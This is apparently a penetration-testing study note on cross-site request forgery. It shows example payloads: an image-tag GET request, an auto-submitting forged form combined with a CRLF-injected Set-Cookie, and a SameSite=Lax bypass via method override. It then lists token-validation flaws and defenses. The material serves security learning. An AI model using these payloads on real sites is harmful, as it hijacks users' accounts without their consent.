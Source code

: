 # 🟢 Cross-site request forgery (CSRF)

Allows an attacker to induce users to perform actions that they do not intend to perform

### <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:orange;">**Reflected XSS**</mark>

Attacker will place the malicious HTML onto a web site that they control

### <mark style="color:orange;">GET method</mark>

**Example**

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

## <mark style="color:red;">Common CSRF vulnerabilities</mark>

* Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
* Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
* Some applications do not validate that the token belongs to the same session as the user who is making the request.
* Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions.\
  <mark style="color:green;">**Example**</mark>

```html
<html>
  <body>
    <form action="https://vul-site.com/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;yahoo&#46;com" />
      <input type="hidden" name="csrf" value="jyLqs10iSdsMQz1S5jqucMF55ZyDRyQL" />
      <input type="submit" value="Submit request" />
    </form>
     <img src="http://vul-site.com/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"> 
  </body>
</html>
```

* Some applications do not maintain any server-side record of tokens that have been issued.
* Cookie **SasmeSite=Lax** bypass via method override. Change **POST** method to **Get** with **"\_method"** parameter. Example\
  &#x20;`/change-email?email=attacker@attack.net&_method=POST`

## <mark style="color:red;">Defenses</mark>

* [ ] CSRF tokens
* [ ] HTTP cookie header (csrf-key)
* [ ] Captcha
* [ ] HTTP Referer header
